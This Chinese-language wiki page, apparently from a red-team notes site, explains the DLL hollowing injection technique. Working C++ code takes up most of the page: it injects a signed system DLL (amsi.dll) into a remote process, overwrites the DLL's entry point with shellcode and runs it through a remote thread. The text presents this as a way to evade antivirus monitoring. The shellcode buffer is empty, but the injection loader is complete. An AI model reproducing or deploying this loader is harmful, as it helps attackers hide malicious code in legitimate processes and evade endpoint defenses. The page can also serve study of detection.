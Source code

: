 ```yaml
---
description: DLL Hollowing
---
```


# DLL Hollowing

## 简介

模块镂空\(dll hollowing\)也是一种shellcode注入技术，原理和思路与process hollowing类似，通过合法的模块信息来伪装恶意代码，虽然我们可以用远程dll注入来完整注入整个恶意dll，但此类注入往往比较容易检测，我们需要往受害者主机上传入一个恶意dll，这样杀毒软件可以通过监控入windows/temp/等目录实现对远程dll注入的拦截，而模块镂空就不会存在这样的风险，因为我们镂空的往往是一个带有微软签名的dll，为了防止进程出错，我们并不能直接镂空一个进程空间中已存在的dll，需要先对目标进程远程注入一个系统合法dll，然后再镂空它，这样我们就获得了一个和windows模块相关联的shellcode环境。

## 实现思路

1. 远程注入一个系统dll\(原理参考[CreateRemoteThrea](createremotethread.md)的dll注入\)
2. 获取该模块在目标进程中的虚拟地址
3. 定位模块的入口点
4. 使用shellcode复写入口点
5. 创建远程线程

## 代码实现

代码参考@mantvydasb

```text
#include <iostream>
#include <Windows.h>
#include <psapi.h>

char shellcode[] = "";

int main(int argc, char* argv[])
{
	
	
	TCHAR ModuleName[] = L"C:\\windows\\system32\\amsi.dll";
	HMODULE hModules[256] = {};
	SIZE_T hModulesSize = sizeof(hModules);
	DWORD hModulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T hModulesCount = 0;
	CHAR rModuleName[128] = {};
	HMODULE rModule = NULL;

	// inject a benign DLL into remote process
	//hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 2924);

	LPVOID lprBuffer = VirtualAllocEx(hProcess, NULL, sizeof ModuleName, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(hProcess, lprBuffer, (LPVOID)ModuleName, sizeof ModuleName, NULL);
	PTHREAD_START_ROUTINE threadRoutine = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	HANDLE dllThread = CreateRemoteThread(hProcess, NULL, 0, threadRoutine, lprBuffer, 0, NULL);
	WaitForSingleObject(dllThread, 1000);

	// find base address of the injected benign DLL in remote process
	EnumProcessModules(hProcess, hModules, hModulesSize, &hModulesSizeNeeded);
	hModulesCount = hModulesSizeNeeded / sizeof(HMODULE);
	for (size_t i = 0; i < hModulesCount; i++)
	{
		rModule = hModules[i];
		GetModuleBaseNameA(hProcess, rModule, rModuleName, sizeof(rModuleName));
		if (std::string(rModuleName).compare("amsi.dll") == 0)
		{
			break;
		}
	}

	// get DLL's AddressOfEntryPoint
	DWORD headerBufferSize = 0x1000;
	LPVOID peHeader = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
	ReadProcessMemory(hProcess, rModule, peHeader, headerBufferSize, NULL);

	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)peHeader;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)peHeader + dosHeader->e_lfanew);
	LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)rModule);

	// write shellcode to DLL's AddressofEntryPoint
	WriteProcessMemory(hProcess, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);

	// execute shellcode from inside the benign DLL
	CreateRemoteThread(hProcess, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);

	return 0;
}
```

## 实现效果

![](../.gitbook/assets/image%20%289%29.png)

![](../.gitbook/assets/image%20%2854%29.png)

![](../.gitbook/assets/image%20%2872%29.png)

![](../.gitbook/assets/image%20%2867%29.png)

## LINKS

{% embed url="https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing" %}



{% embed url="https://ired.team/" %}



